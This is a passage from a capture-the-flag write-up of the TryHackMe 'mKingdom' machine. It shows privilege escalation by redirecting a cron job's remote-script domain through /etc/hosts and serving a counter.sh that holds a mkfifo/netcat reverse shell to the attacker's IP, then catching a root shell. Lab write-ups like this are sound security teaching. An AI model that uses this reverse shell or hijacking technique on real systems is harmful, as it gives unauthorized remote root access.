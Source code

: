 This suggests a scheduled task periodically fetches and executes a remote script.

![pspy64 Output](/ctf/tryhackme/mKingdom/pspy64.png)

### Exploiting the Scheduled Script

#### Step 1: Domain Redirection

We redirect the domain `mkingdom.thm` to our attacking machine by modifying `/etc/hosts`:

```bash
echo "
127.0.0.1       localhost
10.11.125.246   mkingdom.thm
127.0.0.1       backgroundimages.concrete5.org
127.0.0.1       www.concrete5.org
127.0.0.1       newsflow.concrete5.org

::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
" > /etc/hosts
```

*Note: `echo` is used due to the absence of text editors like `nano` or `vi`.*

#### Step 2: Crafting Malicious Payload

We recreate the expected path and payload:

```bash
mkdir -p app/castle/application
```

Create `counter.sh` with reverse shell code:

```bash
#!/bin/bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc 10.11.125.246 9999 >/tmp/f
```

Make it executable:

```bash
chmod +x counter.sh
```

#### Step 3: Hosting and Listening

We host the file using Python’s built-in server:

```bash
sudo python3 -m http.server 85
```

And prepare the Netcat listener:

```bash
nc -lvnp 9999
```

Once the cron job executes the script, a root shell is established:

![Request Incoming](/ctf/tryhackme/mKingdom/request.png)  
![Root Shell](/ctf/tryhackme/mKingdom/reverse-shell-root.png)